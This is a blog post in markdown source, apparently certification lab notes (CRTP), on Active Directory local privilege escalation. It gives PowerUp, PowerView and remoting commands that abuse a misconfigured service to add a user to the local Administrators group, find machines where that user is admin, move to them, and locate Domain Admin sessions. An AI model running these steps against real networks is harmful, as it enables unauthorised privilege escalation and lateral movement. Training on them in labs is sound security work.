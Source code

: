 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation (Part 1)
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## 1. Local Privilege Escalation

 In Active Directory Environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

 There are various ways of locally escalting privilege on Windows:
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

 We can use below tools for complete coverage:
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## 2. Check for any privilege escalation path (PowerUp)

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

```jsx
#Check for any priviliege escalation path
Invoke-AllChecks
```

![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

Let’s use the abuse function for Invoke-ServiceAbuse and add our current domain user to the 
local Administrators group. 
```jsx
#Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Invoke-AllChecks_

Now, our user is a local admin !

## 3. Identify any machine in the domain where our user has local administrative (Find-PSRemotingLocalAdminAccess.ps1)

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 


```jsx
#Identify a computer within the network domain where the current user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
We can connect to the machine who has the local administrative access by using winrs

```jsx
winrs -r:dcorp-adminsrv cmd

#Checking the username and computername in the remote winrs session
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

We can also use PowerShell Remoting

```jsx
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## 4. Identify a machine in the domain where a Domain Admin session is available (PowerView)

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.

```jsx
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }

Now, we can abuse this using winrs or PowerShell Remoting!

**Abuse using winrs**
![Result](/img/crtp/result7.png){: width="972" height="589" }